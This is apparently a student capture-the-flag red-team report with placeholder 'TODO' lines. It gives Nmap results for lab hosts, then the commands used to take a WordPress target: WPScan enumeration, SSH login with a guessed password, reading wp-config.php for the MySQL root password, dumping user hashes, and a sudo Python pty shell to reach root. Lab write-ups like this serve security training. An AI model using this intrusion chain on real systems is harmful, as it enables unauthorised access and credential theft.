 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
---
## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

**Nmap scan report for 192.168.1.1**
Host is up (0.00058s latency).
Not shown: 995 filtered ports

**PORT     STATE SERVICE       VERSION**\
135/tcp  open  msrpc         Microsoft Windows RPC\
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn\
445/tcp  open  microsoft-ds?\
2179/tcp open  vmrdp?\
3389/tcp open  ms-wbt-server Microsoft Terminal Services\
MAC Address: 00:15:5D:00:04:0D (Microsoft)\
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows\
**Nmap scan report for 192.168.1.100**\
Host is up (0.00089s latency).\
Not shown: 998 closed ports

**PORT     STATE SERVICE VERSION**\
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)\
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)\
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)\
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel\
Nmap scan report for 192.168.1.105\
Host is up (0.00052s latency).\
Not shown: 998 closed ports\

**PORT   STATE SERVICE VERSION**\
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)\
80/tcp open  http    Apache httpd 2.4.29\
MAC Address: 00:15:5D:00:04:0F (Microsoft)\
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.110**\
Host is up (0.00062s latency).\
Not shown: 995 closed ports

**PORT    STATE SERVICE     VERSION**\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)  
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
MAC Address: 00:15:5D:00:04:10 (Microsoft)\
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.115**\
Host is up (0.0014s latency).\
Not shown: 995 closed ports

**PORT    STATE SERVICE     VERSION**\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)\
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
MAC Address: 00:15:5D:00:04:11 (Microsoft)\
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.90**\
Host is up (0.0000080s latency).\
Not shown: 999 closed ports

![NMAP network scan] (images/1 NMAP network scan.png)
---

### This scan identifies the services below as potential points of entry:
- Target 1 
List of Exposed Services
PORT    STATE SERVICE     VERSION\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)\
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)



### The following vulnerabilities were identified on Target 1:

 ### List of Critical Vulnerabilities
- WordPress XMLRPC GHOST Vulnerability Scanner - CVE-2015-0235
- Wordpress XMLRPC DoS
- Wordpress XML-RPC Username/Password Login Scanner
- Wordpress Pingback Locator - CVE-2013-0235
- Wordpress XML-RPC Pingback API

![alt text](image.jpg)



### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - First, the Wordpress server was ennumerated with WPSCAN
          The user accounts were found in the results as well as five vunerabilities.
          The accounts were michael and steven
          The password for michael was easily guessed as : michael, revealing no password
          requirements were being enforced.  wpscan was also able to crack steven's password.
      - wpscan --url 192.168.1.110/wordpress/ -e
        ssh michael@192.168.1.110
        password:michael
        cd /var/www/html
        nano service.html
        
        


![alt text](image.jpg)


      flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Using the find command the 2nd flag was revealed to be in /var/www/
      - _TODO: Include the command run_
        find / -iname flag*
        cd /var/www
        cat flag2.txt

      ![alt text](image.jpg)
      
      
      flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
    Searching the /var/www/html directory revealed the wp-config.php file.  Searching that file
    revealed the root password for the MySQL database 'wordpress'.  Using the MySQL credentials
    allowed searching the tables 'wpcomments' and 'wpusers' which revealed a flag and two users hashes 
    respectively.  
    
      - _TODO: Include the command run_
      mysql -u root -p -h 127.0.0.1
      use wordpress;
      show tables
      select * from wp_comments
      select * from wp_users

      ![alt text](image.jpg)
      
      flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Using Steven's password, escalation was achived.  Then using python, root was achived
      allowing full access to all directories.  A find was performed, revealing a final flag file 
      in /root/flag4.txt

      - _TODO: Include the command run_
      su steven
      pink84
      sudo python -c 'import pty;pty.spawn("/bin/bash")'
      find / -iname flag*
      cd /root/
      cat flag4.txt


      ![alt text](image.jpg)
